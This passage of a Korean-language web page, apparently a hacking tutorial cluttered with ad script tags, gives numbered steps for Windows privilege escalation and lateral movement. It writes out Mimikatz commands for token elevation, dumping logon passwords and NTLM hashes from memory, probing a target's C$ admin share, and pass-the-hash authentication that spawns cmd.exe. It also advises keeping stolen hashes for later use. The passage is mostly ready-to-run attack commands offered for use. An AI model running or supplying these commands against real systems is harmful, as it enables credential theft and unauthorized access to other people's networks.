 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

2. 토큰 위조 또는 서비스 남용과 같은 기술을 사용하여 경로를 악용합니다.

```js
mimikatz.exe "privilege::debug" "token::elevate" "exit"
```

3. 제한된 리소스에 액세스하려고 시도하여 액세스를 확인합니다.

```js
dir \\<target_ip>\c$
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

3. 해시를 추출하려면 sekurlsa::logonpasswords 명령을 실행하세요.

- 추출된 해시를 안전하게 저장하여 나중에 사용하세요.

# 패스 더 해시

- 대상 계정의 NTLM 해시를 획득하세요.
- 해당 해시를 Mimikatz나 Pass-the-Hash Toolkit과 같은 도구와 함께 사용하여 평문 암호 없이 인증하세요.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:cmd.exe" "exit"

# 해시/키 전달하기
